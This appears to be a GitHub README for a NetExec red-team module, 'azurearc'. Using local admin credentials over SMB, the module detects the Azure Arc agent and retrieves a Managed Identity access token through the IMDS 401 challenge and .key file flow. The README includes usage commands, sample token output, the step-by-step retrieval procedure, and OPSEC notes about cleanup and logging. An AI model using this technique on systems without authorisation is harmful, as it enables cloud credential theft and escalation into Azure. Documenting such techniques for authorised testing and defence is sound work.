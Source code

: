# NetExec Module: `azurearc`

Enumerates Azure Arc presence on Windows targets and, when present, retrieves a **Managed Identity access token** from the local Arc IMDS endpoint using the documented **401 challenge → `.key` file → second request** flow.

- **Protocol:** SMB (requires local administrator privileges)
- **Primary use case:** Rapidly map Arc deployment and obtain a cloud-scoped token for Azure control-plane enumeration during red team engagements.

---

## ✨ Features

- **Presence check** (`CHECK=true`): Detects Arc agent by listing well-known install paths.
- **Token retrieval** (default): Executes the IMDS challenge/response locally on the target and returns JSON containing `access_token`.


---

## ⚙️ Usage

* Add the module file at:
nxc/modules/azurearc.py

```bash
# Presence check only :
nxc smb <TARGET> -u <USER> -p '<PASS>' -M azurearc -o CHECK=true

# Token dump :
nxc smb 192.168.1.100 -u USER -p 'PASS' -M azurearc
[*] Attempting to retrieve Azure Arc Managed Identity access token
[+] Managed Identity token retrieved
{
  "access_token": "eyJhbGciOi...<redacted>...",
  "expires_on": "1730812345",
  "token_type": "Bearer",
  "resource": "https://management.azure.com"
}
```

## 🔍 How It Works (Behavior)
### Presence check via SMB listing:
C:\Program Files\AzureConnectedMachineAgent\*  
C:\Program Files (x86)\AzureConnectedMachineAgent\*

### Token retrieval on target (PowerShell):
1.GET http://localhost:40342/metadata/identity/oauth2/token?resource=...&api-version=...  
→ expect 401 with WWW-Authenticate: Basic realm="<path to .key>"  
Read the .key contents (requires local admin).  
2.Second GET with Authorization: Basic <key> to obtain token JSON.  
Write JSON to OUTFILE, fetch via SMB, and delete the file.



### 📸 Screenshots
<img width="1201" height="450" alt="2025-10-05_16h20_40" src="https://github.com/user-attachments/assets/41ae5d89-0756-44dd-a0a5-7d936d3879c2" />
<img width="1189" height="391" alt="2025-10-05_17h29_40" src="https://github.com/user-attachments/assets/1b362d70-aace-4c94-bcbf-beb7e0679d3d" />



### 🔒 OPSEC & Scope Notes
Local admin required on the target (matches Arc’s security boundary).\
Tokens are written to a temp file on the target only long enough to read back via SMB. the file is then deleted.
Be mindful of token lifetime and endpoint logging.


### 🧭 References
NSIDE Attack Logic  Azure Arc - Part 1 - Escalation from On-Premises to Cloud\
https://www.nsideattacklogic.de/azure-arc-part-1-escalation-from-on-premises-to-cloud/

